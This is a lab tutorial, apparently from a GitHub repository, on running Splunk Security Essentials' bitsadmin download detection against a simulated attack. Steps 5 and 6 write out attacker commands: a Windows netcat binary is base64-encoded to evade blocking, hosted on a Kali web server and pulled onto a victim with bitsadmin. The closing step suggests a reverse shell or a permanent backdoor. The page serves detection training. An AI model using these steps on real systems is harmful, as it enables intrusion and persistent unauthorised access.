




### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 


---
2. Install Splunk Security Essentials

Apps > Find More Apps


---  
3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring


---  
  

---

4. Find **BITSAdmin Download File** and open it



---  
Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  


  

---

  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

  

--- 


If you see similar (red exclamation marks) just click "Add Macro" one by one.
  

---  


5. Lets go to the Kali, login via ssh or VM console, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > b64nc
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
---  

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/b64nc c:\temp\myshell64
```

---  

7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 



Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).
